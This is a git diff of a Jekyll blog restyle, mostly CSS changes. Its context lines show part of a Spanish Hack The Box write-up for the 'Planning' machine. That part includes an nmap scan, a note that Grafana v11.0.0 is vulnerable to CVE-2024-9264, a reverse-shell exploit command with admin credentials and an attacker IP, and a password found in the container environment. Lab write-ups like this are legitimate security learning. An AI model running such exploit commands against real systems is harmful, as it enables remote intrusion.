

Before and after one commit to aldayrruiz/aldayrruiz.github.io, a Jekyll site: the page built from _posts/2025-08-14-planning.htb.md, in a window 390 px wide. Shown: the top 1098 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

Commit message:
feat: new css

````diff
--- a/_posts/2025-08-14-planning.htb.md
+++ b/_posts/2025-08-14-planning.htb.md
@@ -1,13 +1,14 @@
 ---
 layout: post
-title:  "Planning"
-date:   2024-04-05 17:04:54 +0100
+title: "Planning"
+date: 2024-04-05 17:04:54 +0100
 tags: ["OS Command Injection", "Brute Force"]
 categories: ["Linux", Medium]
 image: "https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/c9efb253e7d1d9b407113e11afdaa905.png"
 ---
 
 Enumeración de puertos
+
 ```java
 sudo nmap -sC -sV -p22,80 -Pn -n --open planning.htb
 Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-13 18:53 CEST
@@ -30,9 +31,10 @@ Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
 
 Enumeración de directorios
 
-![Nmap scan](/assets/machines/planning.htb/images/Pasted%20image%2020250813185055.webp)
+![](/assets/machines/planning.htb/images/4bb00001-5296-4f5f-849a-507e6cf826c3.webp)
 
 Iniciar sesión Granfana
+
 ![](/assets/machines/planning.htb/images/850dc59b-4ae4-44c1-b49d-0df3e8d6542e.webp)
 
 Versión Grafana.
@@ -44,6 +46,7 @@ La versión de grafana v11.0.0 es vulnerable al CVE-2024-9264.
 [z3k0sec/CVE-2024-9264-RCE-Exploit: Grafana RCE exploit (CVE-2024-9264)](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit?tab=readme-ov-file#description)
 
 Establecer una reverse shell.
+
 ```bash
 $ python poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.115 --reverse-port 9000
 [SUCCESS] Login successful!
@@ -53,7 +56,7 @@ Set up a netcat listener on 9000
 
 ![](/assets/machines/planning.htb/images/62132e13-564c-45d2-a405-2a1a9cbe6537.webp)
 
-Una vez dentro somos ``root`` pero de un contenedor de Docker.
+Una vez dentro somos `root` pero de un contenedor de Docker.
 
 Contraseña encontrada: `RioTecRANDEntANT!` usando el comando `env`.
 
--- a/assets/css/common.css
+++ b/assets/css/common.css
@@ -1,12 +1,27 @@
+@import url("https://fonts.googleapis.com/css2?family=JetBrains+Mono:wght@400;700&display=swap");
+
 :root {
-  --gray-1: #3f3f3f;
-  --gray-2: #32353a;
-  --gray-3: #25282c;
-  --gray-4: #151618;
-  --gray-5: #151618;
-  --gray-6: #111111;
-  --white-1: #eeeeee;
-  --white-2: #a9abb3;
+  --bg-main: #0b0c10;
+  --bg-card: #181a20;
+  --bg-code: #181a20;
+  --border-card: #23263a;
+  --accent-blue: #60a5fa;
+  --accent-blue-2: #2563eb;
+  --badge-bg: #23263a;
+  --badge-border: #2563eb;
+  --badge-hover: #60a5fa;
+  --text-main: #e6eaf3;
+  --text-muted: #a9abb3;
+  --shadow: 0 2px 16px rgba(16, 24, 40, 0.18);
+}
+
+html,
+body {
+  background: var(--bg-main);
+  color: var(--text-main);
+  font-family: "JetBrains Mono", "Segoe UI", Arial, sans-serif;
+  margin: 0;
+  padding: 0;
 }
 
 main {
@@ -15,62 +30,21 @@ main {
   padding: 0 16px;
 }
 
-body {
-  background: #101828;
-  font-family: "JetBrains Mono", monospace;
-  margin: 0;
-  padding: 0;
-  color: #e6eaf3;
+a {
+  color: var(--accent-blue);
+  text-decoration: none;
+  transition: color 0.2s;
+}
+a:hover {
+  color: var(--badge-hover);
 }
 
-@media (prefers-color-scheme: light) {
-  :root {
-    --gray-1: #3f3f3f;
-    --gray-2: #32353a;
-    --gray-2_5: #242526;
-    --gray-3: #e8e8e8;
-    --gray-4: #eeeeee;
-    --gray-5: #f5f5f5;
-    --gray-6: #a9abb3;
-    --white-1: #242526;
-    --white-2: #242526;
-  }
-}
-
-@media (prefers-color-scheme: dark) {
-  :root {
-    --gray-1: #3f3f3f;
-    --gray-2: #32353a;
-    --gray-3: #25282c;
-    --gray-4: #151618;
-    --gray-5: #151618;
-    --gray-6: #111111;
-    --white-1: #eeeeee;
-    --white-2: #a9abb3;
-  }
-}
-
-[data-theme="light"] {
-  --gray-1: #3f3f3f;
-  --gray-2: #32353a;
-  --gray-2_5: #242526;
-  --gray-3: #e8e8e8;
-  --gray-4: #eeeeee;
-  --gray-5: #f5f5f5;
-  --gray-6: #a9abb3;
-  --white-1: #242526;
-  --white-2: #242526;
-}
-
-[data-theme="dark"] {
-  --gray-1: #3f3f3f;
-  --gray-2: #32353a;
-  --gray-3: #25282c;
-  --gray-4: #151618;
-  --gray-5: #151618;
-  --gray-6: #111111;
-  --white-1: #eeeeee;
-  --white-2: #a9abb3;
+hr {
+  border-top: 2px dashed var(--text-muted);
+  margin-bottom: 1.75rem;
+  border-bottom: none;
+  border-left: none;
+  border-right: none;
 }
 
 #category-modal-bg {
@@ -140,11 +114,3 @@ body {
 .modal-article:hover {
   background: var(--gray-4);
 }
-
-hr {
-  border-top: 2px dashed var(--white-2) !important;
-  border-bottom: none !important;
-  border-left: none !important;
-  border-right: none !important;
-  margin-bottom: 1.75rem !important;
-}
--- a/assets/css/header.css
+++ b/assets/css/header.css
@@ -5,10 +5,19 @@ header {
   align-items: flex-start;
   justify-content: space-between;
   gap: 1rem;
+  background: transparent;
 }
 header .site-title {
-  font-size: 4rem;
+  font-size: 3rem;
   font-weight: bolder;
   line-height: 110%;
-  color: var(--white-1);
+  color: var(--accent-blue);
+  letter-spacing: -2px;
+  text-shadow: 0 2px 12px #22345c44;
+  font-family: "JetBrains Mono", monospace;
 }
+@media screen and (max-width: 750px) {
+  header .site-title {
+    font-size: 2rem;
+  }
+}
--- a/assets/css/post.css
+++ b/assets/css/post.css
@@ -1,10 +1,9 @@
 * {
-  font-family: inherit;
+  font-family: "JetBrains Mono", "Segoe UI", Arial, sans-serif;
   text-decoration: none;
   margin: 0;
   padding: 0;
   -webkit-user-drag: none;
-  -moz-window-dragging: none;
   -webkit-tap-highlight-color: transparent;
 }
 * img {
@@ -13,34 +12,11 @@
 
 html,
 body {
-  color: var(--white-2);
-  background-color: var(--gray-6);
+  color: var(--text-main);
+  background-color: var(--bg-main);
   line-height: 2rem;
-  background-color: var(--gray-5);
 }
 
-.content a {
-  color: cyan;
-  border-bottom: 1px solid cyan;
-}
-@media (prefers-color-scheme: light) {
-  .content a {
-    color: #1ebaba;
-    border-bottom: 1px solid #1ebaba;
-  }
-}
-[data-theme="light"] {
-  .content a {
-    color: #1ebaba;
-    border-bottom: 1px solid #1ebaba;
-  }
-}
-[data-theme="dark"] {
-  .content a {
-    color: cyan;
-    border-bottom: 1px solid cyan;
-  }
-}
 header {
   padding: 2rem 0 4rem 0;
   display: flex;
@@ -53,20 +29,27 @@ header {
   font-size: 1.4rem;
   font-weight: bolder;
   line-height: 110%;
-  color: var(--white-1);
+  color: var(--accent-blue);
 }
 
 .article {
   margin-bottom: 3rem;
+  background: var(--bg-card);
+  border-radius: 16px;
+  box-shadow: var(--shadow);
+  padding: 2rem;
+  border: 1px solid var(--border-card);
 }
 
 .article-header {
-  margin-bottom: 4rem;
+  margin-bottom: 2rem;
 }
 .article-title {
-  font-size: 2.4rem;
+  font-size: 2.2rem;
   margin-bottom: 0.6rem;
   line-height: 140%;
+  color: var(--text-main);
+  font-family: "JetBrains Mono", monospace;
 }
 
 .article .date {
@@ -77,28 +60,32 @@ header {
   display: flex;
   flex-direction: row;
   flex-wrap: wrap;
-  justify-content: flex-start;
+  gap: 8px;
 }
 .categories .category {
-  margin: 0 0.5rem 0 0;
-  display: block;
-  color: var(--gray-4);
-  background: var(--white-2);
-  border-radius: 15px;
-  font-size: 0.7rem;
-  padding: 0 0.8rem;
-  line-height: 1.3rem;
-  cursor: pointer;
+  color: var(--accent-blue);
+  background: var(--badge-bg);
+  border-radius: 12px;
+  font-size: 0.85rem;
+  padding: 4px 12px;
+  font-weight: 500;
+  border: 1px solid var(--badge-border);
+  transition: background 0.2s, color 0.2s;
+}
+.categories .category:hover {
+  background: var(--badge-hover);
+  color: var(--bg-card);
+  border-color: var(--badge-hover);
 }
 
 /* markdown content */
-
 .content * {
   line-height: 180%;
+  font-family: "JetBrains Mono", monospace;
 }
 .content p {
   font-size: 1.1rem;
-  color: cornflowerblue;
+  color: var(--text-main);
   margin: 0 0 1.75rem 0;
   padding: 0;
 }
@@ -127,29 +114,23 @@ header {
 .content h5,
 .content h6 {
   margin: 1.75rem 0;
+  color: var(--text-main);
 }
 .content blockquote {
   padding-left: 1.42188rem;
   margin-bottom: 1.75rem;
   font-style: italic;
   font-weight: 100;
-  border-left: 0.3rem solid var(--white-2);
+  border-left: 0.3rem solid var(--accent-blue);
+  color: var(--text-muted);
 }
 .content strong {
   font-weight: bold;
 }
-.content ul {
+.content ul,
+.content ol {
   margin-left: 1rem;
   margin-bottom: 1.75rem;
-}
-.content ol {
-  margin-left: 1.75rem;
-  margin-bottom: 1.75rem;
-}
-.content ol * ol,
-.content ul * ul {
-  margin-left: 1rem;
-  margin-bottom: 0;
 }
 .content table {
   width: 100%;
@@ -158,100 +139,45 @@ header {
   border-collapse: collapse;
 }
 .content table th {
-  background-color: var(--gray-3);
-  color: var(--white-2);
-  border: 1px solid var(--gray-5);
+  background-color: var(--bg-card);
+  color: var(--text-main);
+  border: 1px solid var(--border-card);
 }
 .content table * {
-  border: 1px solid var(--gray-3);
+  border: 1px solid var(--border-card);
   padding: 0.2rem;
 }
 .content img {
   max-width: 100%;
   margin: 1rem 0;
+  border-radius: 8px;
+  box-shadow: 0 2px 8px rgba(37, 99, 235, 0.15);
 }
 .content img.emoji {
   margin: 0 !important;
 }
 
 /* pre , code */
-.content,
-.content div,
-.content div pre,
-.content div pre code {
-  overflow-x: auto !important;
-}
-
 .content pre {
-  background: var(--gray-3);
+  background: black;
   padding: 1rem 2rem;
   margin-bottom: 1.75rem;
+  border-radius: 12px;
+  overflow-x: auto;
+  font-family: "JetBrains Mono", monospace;
 }
 
 .content code {
-  padding: 3px 0px;
-  color: var(--white-2);
-  white-space: pre;
-  background: var(--gray-3);
-}
-
-@media (prefers-color-scheme: light) {
-  .content code,
-  .content pre {
-    color: var(--gray-5);
-    background: var(--gray-2_5) !important;
-  }
-}
-
-[data-theme="light"] {
-  .content code,
-  .content pre {
-    color: var(--gray-5);
-    background: var(--gray-2_5) !important;
-  }
-}
-
-[data-theme="dark"] {
-  .content code,
-  .content pre {
-    color: var(--white-2);
-    background: var(--gray-3);
-  }
-}
-
-/* lbox */
-
-.content img {
-  cursor: zoom-in;
-}
-
-#lightbox {
-  position: fixed;
-  z-index: 1000;
-  top: 0;
-  left: 0;
-  right: 0;
-  bottom: 0;
-  background-color: rgba(0, 0, 0, 0.8);
-  display: none;
-}
-
-#lightbox.active {
-  display: flex;
-  justify-content: center;
-  align-items: center;
-}
-
-#lightbox img {
-  max-width: 90%;
-  max-height: 80%;
-  padding: 4px;
-  background-color: black;
-  border: 2px solid white;
+  color: var(--accent-blue);
+  font-size: 1rem;
+  font-family: "JetBrains Mono", monospace;
 }
 
 @media screen and (max-width: 750px) {
   body {
     padding: 1.5rem;
   }
+  .article {
+    padding: 1rem;
+  }
 }
--- a/assets/css/syntax.css
+++ b/assets/css/syntax.css
@@ -210,7 +210,9 @@
 .highlight .nt {
   color: #f92672;
 }
+
 .highlight {
   color: #f8f8f2;
+  background: black;
   border-radius: 0.5rem;
 }
````
Also changed, not shown: assets/css/blog.css (+86 -218 lines), LICENSE.md (added), assets/machines/planning.htb/images/4bb00001-5296-4f5f-849a-507e6cf826c3.webp (added).
